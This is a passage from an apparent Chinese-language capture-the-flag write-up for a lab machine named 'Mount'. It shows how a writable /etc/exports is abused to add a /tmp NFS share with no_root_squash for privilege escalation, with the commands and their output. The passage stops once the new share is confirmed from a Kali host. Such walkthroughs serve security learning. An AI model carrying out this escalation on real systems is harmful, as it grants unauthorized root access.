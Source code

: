 ```bash
ll104567@Mount:~$ find / -perm -4000 -type f -exec ls -l {} \; 2>/dev/null
-rwsr-xr-x 1 root root 114784 Jul 16  2024 /usr/sbin/mount.nfs
...
-rwsr-xr-x 1 root root 182600 Jan 14  2023 /usr/bin/sudo
...
```

未发现可利用的异常SUID程序。

## 4.2 NFS配置文件分析

检查NFS导出配置：

```bash
ll104567@Mount:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
...
/home/ll104567 *(rw,sync,root_squash,no_subtree_check)
```

发现当前配置启用了`root_squash`选项，这限制了root权限。关键在于该文件具有写权限：

```bash
ll104567@Mount:~$ ls -la /etc/exports
-rw-rw---- 1 root ll104567 444 Aug 21 03:45 /etc/exports
```

## 4.3 NFS配置劫持

修改NFS配置文件，添加不受root限制的/tmp共享：

```bash
ll104567@Mount:/tmp$ echo "/tmp *(rw,sync,no_root_squash,no_subtree_check)" >> /etc/exports

ll104567@Mount:/tmp$ cat /etc/exports
...
/home/ll104567 *(rw,sync,root_squash,no_subtree_check)
/tmp *(rw,sync,no_root_squash,no_subtree_check)
```

重启系统使配置生效：

```bash
ll104567@Mount:/tmp$ sudo /sbin/reboot
```

## 4.4 利用no_root_squash提权

系统重启后，验证新的NFS共享：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ showmount -e 192.168.205.173
Export list for 192.168.205.173:
/tmp           *
/home/ll104567 *
```

